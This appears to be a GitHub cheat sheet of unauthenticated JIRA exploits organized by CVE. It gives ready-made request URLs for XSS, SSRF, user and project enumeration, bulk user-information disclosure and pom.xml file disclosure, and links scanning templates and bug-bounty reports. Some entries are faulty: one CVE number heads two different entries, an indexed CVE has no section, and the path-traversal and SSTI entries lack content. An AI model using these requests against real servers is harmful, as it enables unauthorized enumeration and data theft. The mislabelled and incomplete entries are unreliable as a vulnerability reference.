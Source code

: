 # Unauthenticated & Exploitable JIRA Vulnerabilities 

### [Mindmap](https://www.xmind.net/m/Jrn7f8/)

Index | Technique
--- | ---
**1** | CVE-2020-14179 (Information Disclosure)
**2** | CVE-2020-14181 (User Enumeration)
**3** | CVE-2020-14178 (Project Key Enumeration)
**4** | CVE-2019-3402 (XSS)
**5** | CVE-2019-11581 (SSTI)
**6** | CVE-2019-3396 (Path Traversal)
**7** | CVE-2019-8451 (SSRF)
**8** | CVE-2019-8449 (User Information Disclosure)
**9** | CVE-2019-3403 (User Enumeration)
**10** | CVE-2019-8442 (Sensitive Information Disclosure)
**11** | Tools
**12**| Reports

___
#### CVE-2019-8442 (Sensitive Information Disclosure)
```
a. Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa
b. It leaks information about custom fields, custom SLA, etc.

```

#### CVE-2020-14181 (User Enumeration)

```
a. Navigate to <JIRA_URL>/secure/ViewUserHover.jspa?username=<uname>

```

#### CVE-2020-14178 (Project Key Enumeration)

```
a. Navigate to <JIRA_URL>/browse.<project_key>
b. Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.

```

#### CVE-2019-3402 (XSS)
```
a. Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search

```

#### CVE-2019-11581 (SSTI)

```
a. Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
```
#### CVE-2019-3396 (Path Traversal)

#### CVE-2019-8451 (SSRF)

```
a.  Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```

#### CVE-2019-8449 (User Information Disclosure)
```
a. Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
b. Observe that the user related information will be available.
```

#### CVE-2019-3403 (User Enumeration)
```
a.  Navigate to <Jira_URL>/rest/api/2/user/picker?query=<user_name_here> 
b.  Observe the difference in response when valid vs. invalid user is queried.
```
#### CVE-2019-8442 (Sensitive Information Disclosure)
```
a.  Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
b. Observe that the pom.xml file is accessible.
```
#### Tools

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-workflow.yaml) can be used to automate most of these CVEs Detection.

#### Reports
* [https://hackerone.com/reports/632808](https://hackerone.com/reports/632808)
* [https://hackerone.com/reports/1003980](https://hackerone.com/reports/1003980)
#### Blog
[How i converted SSRF TO XSS in jira.](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)


